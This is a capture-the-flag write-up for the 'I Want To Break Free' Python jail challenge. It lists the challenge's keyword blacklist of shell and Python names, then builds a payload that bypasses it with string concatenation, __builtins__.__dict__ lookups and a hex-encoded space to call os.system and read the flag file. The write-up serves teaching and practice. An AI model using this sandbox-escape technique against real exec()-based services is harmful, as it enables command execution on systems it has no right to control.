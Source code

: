 +++
title = "Killer-Queen CTF: I Want To Break Free"
date = "2021-10-29"
aliases = ["IWantToBreakFree"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# I Want To Break Free

We are given a Python file which asks us whether we can escape from jail and prompts us for an input. This input is run directly in an `exec()` call -- except if it is found to be unsafe. It is unsafe in the following two cases:

- One of the characters are outside the ASCII range, 33-126
  - This includes space, which is therefore not allowed
- A word from the provided blacklist is part of the input

The blacklist contains:

```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

What we typically want in these sorts of challenges is to execute code in the server shell, so we can read out the flag. We do this by trying to get access to `os.system()`. If we have access to `__builtins__`, then we can run commands by using e.g.

    __builtins__.__import__('os').system('ls')

We have a few issues here. `import`, `os`, and `system` are all blacklisted. We can easily get around the `os` problem by just splitting the string in two and using string concatenation:

    __builtins__.__import__('o''s').system('ls')

To get around the `import` and `system` problems, we can -- instead of using dot notation -- get the elements from e.g. `__builtins__` as a dictionary by using `__builtins__.__dict__` and then access what we want as a key instead:

    __builtins__.__dict__['__import__']('o''s').__dict__['system']('ls')

And now that we access them as a string, we can use the same string splitting to get around the blacklist. This lets us execute `ls` on the server to find the flag:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ls')

and we get

```
bin
blacklist.txt
boot
cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt
dev
etc
home
jail.py
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The flag is very likely to be in the file with the long hex name, so we want to run `cat` on this - we can just use `cat c*.txt` to shorten the command, as this is the only txt file starting with `c`. We run into other issues here - first, the `cat` command is blacklisted, so we must split it up. And secondly we are using our first space, which is not allowed. Since we use it in a string, the easy fix is to just use another encoding of it, e.g. `\x20` in hex (or something else in binary or octal). This will be used as a space, but there is no longer a space in the actual input:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ca''t\x20c*.txt')

Inputting this, we get the flag.
